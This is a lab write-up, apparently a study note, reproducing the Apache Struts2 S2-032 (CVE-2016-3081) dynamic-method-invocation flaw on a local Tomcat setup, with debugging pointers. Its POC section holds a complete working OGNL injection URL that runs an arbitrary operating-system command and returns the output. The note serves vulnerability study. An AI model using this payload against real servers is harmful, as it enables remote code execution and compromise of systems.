

# S2-032 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Possible Remote Code Execution                               |
| Maximum security rating | High                                                         |
| Recommendation          | Disable Dynamic Method Invocation if possible. Alternatively upgrade to [Struts 2.3.20.3](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.20.3), [Struts 2.3.24.3](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.24.3) or [Struts 2.3.28.1](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.28). |
| Affected Software       | Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3) |
| Reporter                | Nike Zheng nike dot zheng at dbappsecurity dot com dot cn    |
| CVE Identifier          | CVE-2016-3081                                                |

## Problem

`Struts2`在开启了动态方法调用（Dynamic Method Invocation）的情况下，可以使用`method:<name>`的方式来调用名字是`<name>`的方法，而这个方法名将会进行`OGNL`表达式计算，导致远程命令执行漏洞。

## Environment

| Struts2 Version | struts-2.3.24          |
| --------------- | ---------------------- |
| Server          | Tomcat 8.5.53          |
| IDE             | idea 2020.1.1 ULTIMATE |

## POC


Payload: 

```java
http://localhost:8080/s2_032_war_exploded/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=calc
```

## Debug

类似于`S2-016`，首先在`DefaultActionMapper`类中处理`method:`处下个断点：

`s2-032/web/WEB-INF/lib/struts2-core-2.3.24.jar!/org/apache/struts2/dispatcher/mapper/DefaultActionMapper.class:52`



然后一直点击调试栏红色X的按钮回到`struts2`初始过滤器`StrutsPrepareAndExecuteFilter`，剩下的就和S2-016一样咯。

## Reference

- [S2-032](https://cwiki.apache.org/confluence/display/WW/S2-032)
- [S2-032 远程代码执行漏洞（CVE-2016-3081）]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-032/README.zh-cn.md)
- [struts2漏洞中关于动态方法调用的一点思考](https://blog.csdn.net/zzkk_/article/details/77159524)

